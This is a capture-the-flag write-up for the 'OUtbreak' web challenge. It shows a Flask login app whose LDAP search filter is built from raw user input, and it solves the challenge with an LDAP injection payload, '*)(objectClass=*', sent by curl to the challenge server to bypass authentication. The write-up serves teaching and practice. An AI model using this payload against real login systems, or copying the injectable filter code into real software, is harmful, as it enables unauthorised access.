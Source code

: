 
# OUtbreak

 * Category: Web
 * Solved by the JCTF Team

## Description

> A legacy login system is still in use, but something about how it handles input seems strange. Can you can gain access without the creds?

The application sources were attached.

<details>

<summary>Click to view sources</summary>

#### index.py

```python
import os
from auth import authenticate_user
from flask import Flask, render_template, request

FLAG = os.getenv("FLAG", "AppSec-IL{This_Is_Not_The_Flag}")
app = Flask("App")

@app.route('/')
def index():
    return render_template('login.html')

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    if password == "*":
        return render_template('login.html', error='What are you trying to do?')

    username = authenticate_user(username, password)
    if username:
        return render_template("welcome.html", username=username, flag=FLAG)
    else:
        return render_template('login.html', error='Username or password is incorrect')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000, debug=True)

```

#### auth.py

```python
import os
import sys
import ldap3

SERVER = "ldap"
LDAP_SERVER = f'ldap://{SERVER}' 
LDAP_USER = os.getenv("LDAP_USER", 'cn=admin,dc=owasp,dc=ctf')
LDAP_PASSWORD = os.getenv("LDAP_PASSWORD", 'admin')
BASE_DN = os.getenv('BASE_DN', 'dc=owasp,dc=ctf')


def create_ldap_connection():
    server = ldap3.Server(LDAP_SERVER, port=1389, get_info=ldap3.ALL)
    connection = ldap3.Connection(server, user=LDAP_USER, password=LDAP_PASSWORD, auto_bind=True)
    return connection


def authenticate_user(username: str, password: str):
    connection = create_ldap_connection()
    try:
        search_filter = f"(&(cn={username})(userPassword={password}))"
        connection.search(
            search_base=BASE_DN,
            search_filter=search_filter,
            search_scope=ldap3.SUBTREE,
            attributes=['cn']
        )
        result = connection.entries
        print(result)
        if result:
            return result[0].cn.value[1]
    except Exception as e:
        print(e, file=sys.stderr)
    finally:
        connection.unbind()
    return None
```

#### docker-compose.yml

```yml
version: "3"

services:
  ldap:
    image: bitnami/openldap:latest
    environment:
      LDAP_ROOT_PASSWORD: "admin"
      LDAP_ROOT: 'dc=owasp,dc=ctf'
      LDAP_ADMIN_DN : 'cn=admin,dc=owasp,dc=ctf'
      LDAP_ADMIN_USERNAME: 'admin'
      LDAP_ADMIN_PASSWORD: 'admin'
      LDAP_USERS: 'DaGoat'
      LDAP_PASSWORDS: 'secret'
    expose:
      - '1389'

  backend:
    build: backend
    depends_on:
      - ldap
    ports:
      - "5000:5000"
```

</details>


## Solution

We have a simple Flask application that connects to a backend LDAP server to query user
authentication details.

From the docker file, we know that the user name is "DaGoat" (the password in the docker
is "secret" but it doesn't work). 

To login successfully, we need the search filter in `authenticate_user` to return
some result: `f"(&(cn={username})(userPassword={password}))"`

How do we do that without knowing the correct password? Luckily for us, the username and
password that we provide get inserted directly into the query, allowing us to inject
some specially crafted input in order to manipulate it.

For example, if we provide `DaGoat` as the username and `*)(objectClass=*` as the password,
the final query will become:

```
(&(cn=DaGoat)(userPassword=*)(objectClass=*))
```

This query represents the AND of three conditions:
 * `(cn=DaGoat)`: The entry must have a Common Name (cn) of "DaGoat"
 * `(userPassword=*`: The entry must have a `userPassword` attribute present
 * `(objectClass=*)`: The entry must have at least one objectClass value (which is mandatory for LDAP entries, making this condition always true)

Using this injection we get the flag:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/OUtbreak]
└─$ curl 'https://outbreak.appsecil.ctf.today/login' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=DaGoat&password=*%29%28objectClass%3D*' -s | grep AppSec
        <h3>AppSec-IL{inj3cti0n_s1mP1y_w0Rk5}</h3>
```


The flag: `AppSec-IL{inj3cti0n_s1mP1y_w0Rk5}`